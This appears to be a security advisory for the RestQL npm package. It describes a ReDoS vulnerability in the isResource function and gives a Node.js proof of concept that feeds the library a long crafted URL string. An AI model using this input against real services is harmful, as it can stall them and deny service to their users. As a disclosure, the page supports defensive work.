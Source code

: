 # Overview

RestQL allows you to dynamically resolve the nested-linked resources of a RESTful API.

Affected versions of this package are vulnerable to Regular Expression Denial of Service (ReDoS). An attacker providing a very long string to `isResource` function in `utils/isResource.js` can cause a Denial of Service.

# PoC

```node
var restql = require("restql");

/**
 * @constant {string} resource The resource to fetch.
 */
const resource = 'https://pokeapi.co.asdasdasd.asdsadasdsadsad.asdasdsad.asdsadasdsa.sadasdsadas.dasdasasdasd.432asdas3423.3423423423.234234243.234234234.23423423.24234.'

/**
 * @constant {Object} resolver The resolver to apply.
 */
const resolver = {
  'abilities[]?.ability.url': {
    'generation.url': {
      'main_region.url': null,
    },
  },
  'stats[].stat.url?': {
    'affecting_natures.increase[].url': null,
    'affecting_natures.decrease[].url': null,
  },
  'moves[].move?.url': null,
}

/**
 * @constant {Object} options The options to bypass.
 */
const options = {
  // ...
};

(async () => {
  try {
    const data = await restql(resource, resolver, options)

    console.log(data)
  } catch (error) {
    console.error(error.message)
  }
})()
```